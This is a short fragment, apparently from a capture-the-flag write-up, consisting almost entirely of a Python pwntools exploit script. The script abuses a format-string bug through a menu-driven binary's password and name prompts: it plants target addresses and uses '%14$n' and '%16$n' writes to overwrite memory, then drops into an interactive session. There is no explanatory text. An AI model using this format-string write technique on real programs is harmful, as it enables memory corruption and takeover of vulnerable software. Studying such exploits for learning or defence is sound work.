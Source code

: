```python
kind_add = naughty_add - 0x8
  
p.sendlineafter(b">> ", b'2')
p.sendlineafter(b"Password : ", p64(passwd))
p.sendlineafter(b"Name : ", p64(naughty_add))
  
 
p.sendlineafter(b">> ", b'2')
p.sendlineafter(b"Password : ", b'%14$n')
  
naughty_add2 = stack_add + 0x24
p.sendlineafter(b">> ", b'2')
p.sendlineafter(b"Password : ", p64(passwd))
p.sendlineafter(b"Name : ", p64(naughty_add2))
  
p.sendlineafter(b">> ", b'2')
p.sendlineafter(b"Password : ", b'%16$n')
  
p.sendlineafter(b">> ", b'3')
  
p.interactive()
```

![](https://i.imgur.com/9I4W813.png)
